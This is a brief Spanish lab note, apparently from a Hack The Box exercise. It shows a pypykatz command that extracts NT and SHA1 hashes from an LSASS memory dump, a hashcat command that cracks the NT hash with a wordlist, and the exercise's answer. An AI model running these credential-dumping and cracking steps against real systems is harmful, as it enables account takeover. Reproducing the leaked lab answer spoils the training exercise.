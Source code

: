 Teóricamente, debería ejecutar:
```
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

Me devolvería una respuesta de este tipo:
```
INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

Y después con hashcat ejecutaría:

```shell-session
Polika4RM@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

Siendo la solución verdadera del ejercicio: "Mic@123"

